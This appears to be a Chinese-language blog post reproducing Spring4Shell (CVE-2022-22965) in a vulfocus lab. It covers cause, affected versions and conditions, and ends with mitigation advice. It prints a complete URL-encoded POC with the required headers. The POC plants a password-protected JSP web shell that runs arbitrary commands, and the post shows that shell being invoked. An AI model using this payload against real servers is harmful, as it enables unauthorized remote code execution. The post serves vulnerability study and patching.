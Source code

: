 # Spring core远程代码执行漏洞(CVE-2022-22965)复现






## 漏洞简介

springframework 是spring 里面的一个基础开源框架，主要用于javaee的企业开发。2022年3月30日，Spring框架曝出RCE 0day漏洞，攻击者通过该漏洞可远程实现对目标主机的后门文件写入和配置修改，继而通过后门文件访问获得目标主机权限。



## 漏洞成因

该漏洞是由于 Spring Core 未对传输的数据进行有效的验证。Spring MVC 框架提供参数绑定功能，允许用请求中的参数绑定控制器方法中参数对象的成员变量。这一机制使得攻击者能够通过构造恶意请求获取 AccessLogValve 对象，继而注入恶意字段值触发 pipeline 机制，从而能够在未授权的情况下远程构造恶意数据，写入任意路径下的文件，从而导致远程代码执行。



## 影响版本

Spring Framework 5.3.X < 5.3.18 

Spring Framework 5.2.X < 5.2.20



## 利用条件

- JDK 版本 >= 9

- 目标JDK9及其以上版本

- 使⽤了Spring-beans包；

- 使⽤了Spring参数绑定；

- Spring参数绑定使⽤的是⾮基本参数类型，例如⼀般的POJO即可；

  





## 漏洞复现

复现环境：这里使用vulfocus在线靶场：

### 1.连接靶场：

![image-20220429220755621](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429220755621.png)



![image-20220429220821256](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429220821256.png)





### 2.发送POC



**POC:**

```
?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

```

访问时抓包，在"/"后插入EXP，并在请求头中插入如下字样：

```
suffix: %>
c1: Runtime
c2: <%
DNT: 1
Content-Length: 2
```



poc原理：

```
其中，header主要变更处为：
“suffix”:"%>",
“c1”:“Runtime”,
“c2”:"<%",
“DNT”:“1”,
“Content-Type”:“application/x-www-form-urlencoded”
:主体部分，链接后接两个参数pwd和cmd，pwd验证密码，cmd为实行的命令
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
:上传的文件后缀
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
：上传的文件名
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT/
:webapps/ROOT/knan为上传的目录，此处为访问创建目录下的文件

```







数据包内容：

![image-20220429223038550](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429223038550.png)









### 3.利用





若创建通过，放包后访问`[url]/tomcatwar.jsp?pwd=j&cmd=id`即可看到id命令成功执行。

![image-20220429222443020](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429222443020.png)



![image-20220429223116723](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429223116723.png)



## 利用工具

https://github.com/reznok/Spring4Shell-POC







## 修复建议

一、官方修复建议：

当前 Spring Framework 官方已发布最新版本，建议受影响的用户及时更新升级到最新版本。链接如下：

https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

二、临时修复建议：

该临时修复建议存在一定风险，建议用户可根据业务系统特性审慎选择采用临时修复方案：

需同时按以下两个步骤进行漏洞的临时修复:

\1. 在应用中全局搜索 @InitBinder 注解，看看方法体内是否调用 dataBinder.setDisallowedFields 方法，如果发现此代码片段的引入，则在原来的黑名单中，添加 {"class.*","Class. *","*. class.*", "*.Class.*"}。(注：如果此代码片段使用较多，需要每个地方都追加)

\2. 在应用系统的项目包下新建以下全局类，并保证这个类被 Spring 加载到 (推荐在 Controller 所在的包中添加). 完成类添加后，需对项目进行重新编译打包和功能验证测试。并重新发布项目。





---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/spring-core%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-cve-2022-22965-%E5%A4%8D%E7%8E%B0/  

